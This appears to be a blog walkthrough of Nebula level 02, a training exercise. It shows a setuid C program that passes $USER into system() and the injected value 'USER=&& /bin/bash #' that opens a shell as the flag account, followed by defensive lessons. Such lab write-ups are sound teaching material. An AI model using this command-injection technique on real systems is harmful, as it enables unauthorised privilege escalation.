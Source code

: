 ```yaml
---
layout: post
title: "Nebula Series - Level 02"
---
```


Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.

Level 02 is a quick one thanks to an application that trusts us blindly.

<!--more-->

Ok, so the first thing to understand is that you shouldn't trust the user. If the application
executes a command that is built either entirely or partially from user input, it's vulnerable to
command execution.

Inspecting the executable in the flag account's home directory `/home/flag02` we again see that it
is `setuid` and is owned by `flag02`.

To make our lives easier, we are also provided with the source:

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);

  system(buffer);
}
```

Again, the application sets our **REAL** uid & gid to our **EFFECTIVE** uid & gid which means
as far as the running process is concerned, we are user `flag02`; now we just need to get it to do
our bidding.


The application builds up the command using the value in the `$USER` environment variable, stores it in the
buffer, and eventually executes it.

```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
...
system(buffer)
```

Our goal is to craft a value for the `$USER` variable such that we are provided with a shell when the command is run.


We can short circuit the call to `/bin/echo` with `&&`, invoke `/bin/bash`, and comment out the rest
of the command with `#`:

```bash
$ USER='&& /bin/bash #' /home/flag02/flag02
```

The resulting command is

```bash
/bin/echo && /bin/bash # is cool
```

The `#` at the end is crucial because without it `bash` would try to execute a non-existent file called `is` and fail.
Instead, we are presented with a shell as `flag02` which we can verify with `whoami` if we're in doubt.

To complete the level we use our escalated privileges to run getflag

```bash
$ getflag

"You have successfully executed getflag on a target account"
```

In summary:

- assume all input is malicious
- if possible, avoid dynamically composing commands with user provided data
